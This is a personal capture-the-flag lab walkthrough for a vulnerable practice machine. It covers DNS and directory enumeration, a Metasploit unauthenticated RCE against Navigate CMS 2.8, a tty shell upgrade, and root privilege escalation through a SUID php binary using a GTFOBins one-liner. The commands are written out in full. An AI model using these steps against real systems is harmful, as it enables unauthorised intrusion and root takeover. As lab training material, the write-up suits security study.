 80 - 10.0.2.154 - 15/02/2024
Default Nginx page

Directory busting with [[cheet#ffuf]]  + [[cheet#Nikto]] + [[cheet#dirb]]
We found a /secret
`/secret` contains a file -->  that tells that here we con't find anything

53 - 10.0.2.154:

### Enumerating DNS
We'll use [[cheet#dnsrecon]] to gather some info about the victim host
`dnsrecon -r 127.0.0.1/24 -n 10.0.2.154 -d blabla`
![[Pasted image 20240216094823.png]]
as you can see -->  we have found a <span style="color:#00b050">DNS POINTER record</span>:
                 record that maps an IP address to the domain name. 
                 It’s often called a "reverse DNS entry"

How can we visit this domain name:
we add inside our `/etc/hosts` file -->  1 line with the victim ip + the domain
![[Pasted image 20240216095524.png]]

now:
- close your browser
- try to connect http://blackpearl.tcm
- we find a php page
- nothing interesting

but:
we can do directory bursting again on http://blackpearl.tcm

### ffuf
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://blackpearl.tcm/FUZZ_VARIABLE`
![[Pasted image 20240216115329.png]]
we found 1 subdirectory -->  navigate
=>
let's connect to http://blackpearl.tcm/navigate
=>
we'll find a NAVIGATE CMS login page
in the bottom-right corner we can see the version -->  navigate cms v2.8
![[Pasted image 20240216115428.png]]
=>
search on google for -->  - navigate cms default credentials 
				     - [navigate cms exploit](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

We have found an exploit for -->   <span style="color:#00b050">Unauthenticated Remote Code Execution</span> 
								 (using metasploit)

## Metasploit
`msfconsole`
`use exploit/multi/http/navigate_cms_rce`
`options`
`set RHOSTS 10.0.2.154 `        victim ip
`set VHOST blackpearl.tcm`
`run`

=>
<span style="color:#00b050">we have a shell</span><span style="color:#00b050">!</span> 
type `shell`
![[Pasted image 20240216115925.png]]
> [!WARNING] 
> We don't have a normal shell:
> - it is anyway a shell that works  (try to write command whoami for example)
> - but it's difficult to read
> =>
> we need to spawn a tty shell

## Spawn a tty shell
Search on google for -->  [spawning a tty shell](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
you can spawn the shell with python
BUT:
you need to check if the system has python:
`which python`
`python -c 'import pty; pty.spawn("/bin/bash")'`
![[Pasted image 20240216120024.png]]
<span style="color:#00b050">now we have a normal shell</span>:
=>
- let's find some privilege escalation
- try sudo -l       (it doesn't exist)
- try use [[cheet#linpeas|linpeas]]
- ![[Pasted image 20240216120521.png]]

## Privilege Escalation
we'll use [[cheet#linpeas|linpeas]]
run it 
we'll see that --> there are some programs that have set the <span style="color:#00b050">SUID bit</span>
![[Pasted image 20240216114009.png]]

### SUID
to check better the commands that have the s bit we can use this:
`find / -type f -perm -4000 2>/dev/null`
![[Pasted image 20240216120747.png]]
now we can use -->  [[cheet#GTFOBins|GTFOBins]]
                 to find if 1 of these commands have vuln to do privilege escalation
=>
- go to GTFOBins
- select SUID 
- search for one of the commands that we found
- we find -->  <span style="color:#00b050">php</span>
![[Pasted image 20240216114514.png]]
=>
substitute ./php with our path to php and run the last line
`/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`

if we check the id -->  we'll see that the <span style="color:#00b050">Effective UID is root</span>
![[Pasted image 20240216120935.png]]

<span style="color:#00b050">finish :)</span>
![[Pasted image 20240216121230.png]]
